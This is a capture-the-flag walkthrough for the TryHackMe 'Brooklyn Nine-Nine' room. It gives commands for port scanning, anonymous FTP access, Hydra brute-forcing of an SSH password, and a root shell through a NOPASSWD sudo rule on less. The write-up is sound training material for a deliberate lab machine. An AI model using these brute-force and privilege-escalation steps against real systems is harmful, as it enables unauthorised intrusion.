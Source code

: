
# 🧠 Brooklyn99 - TryHackMe Walkthrough

📅 **Date**: July 26, 2020  
🔗 **Room Link**: [Brooklyn Nine-Nine - TryHackMe](https://tryhackme.com/room/brooklynninenine)  
🎯 **Goal**: Gain user and root access; capture the flags.

---

## 🔍 Step 1: Initial Nmap Scan

Scan the target to see open ports and services:

```bash
nmap <ip>
```

Example:

```bash
nmap 10.10.10.123
```

### 📄 Observations:

- **Open Ports**: 21 (FTP), 22 (SSH), 80 (HTTP)
- **FTP**: Anonymous login enabled
- **FTP File**: `note_to_jake.txt`
- **Possible Usernames**: `jake`, `amy`, possibly `holt`

---

## 📁 Step 2: Anonymous FTP Login

Connect to the FTP server:

```bash
ftp <ip>
```

Login details:

- **Username**: `anonymous`
- **Password**: *(just press Enter)*

Then:

```bash
ls
get note_to_jake.txt
```

---

## 🔐 Step 3: Brute-Force Jake's SSH Password

Use Hydra with simple syntax:

```bash
hydra -l jake -P <wordlist> ssh://<ip>
```

Example:

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.123
```

---

## 🧑‍💻 Step 4: SSH Access

Login using the credentials found from Hydra:

```bash
ssh jake@<ip>
```

Example:

```bash
ssh jake@10.10.150.247
```

---

## 🏁 Step 5: Find and Read User Flag

Search for the user flag:

```bash
find / -name user.txt 2>/dev/null
```

Found:

```
/home/holt/user.txt
```

Read the flag:

```bash
cat /home/holt/user.txt
```

✅ **Submit the flag**

---

## 🔓 Privilege Escalation using `less` (Sudo Exploit)

### 🧠 What’s the Vulnerability?

The user `jake` can run the binary `/usr/bin/less` with **sudo** and **without a password (NOPASSWD)**:

```bash
sudo -l
```

**Output:**
```
User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

This means `jake` can execute `less` as root. Since `less` supports shell escapes via `!`, it can be exploited to spawn a **root shell**.

---

### 🛠️ Exploitation Steps

1. Run `less` with sudo on any file (e.g., `/etc/profile`):

```bash
sudo less /etc/profile
```

2. Inside `less`, type the following to spawn a shell:

```
!bash
```

> The `!` command runs a shell command inside `less`. Since `less` is running with `sudo`, this spawns a **root shell**.

---

### ✅ Verify Privilege Escalation

After running `!bash`, check if you are root:

```bash
whoami
```

**Expected output:**
```
root
```

---

### 📋 Full Command Sequence

```bash
# Step 1: View sudo permissions
sudo -l

# Step 2: Exploit less with sudo
sudo less /etc/profile

# Step 3: Inside less, type:
!bash

# Step 4: Confirm root shell
whoami
```
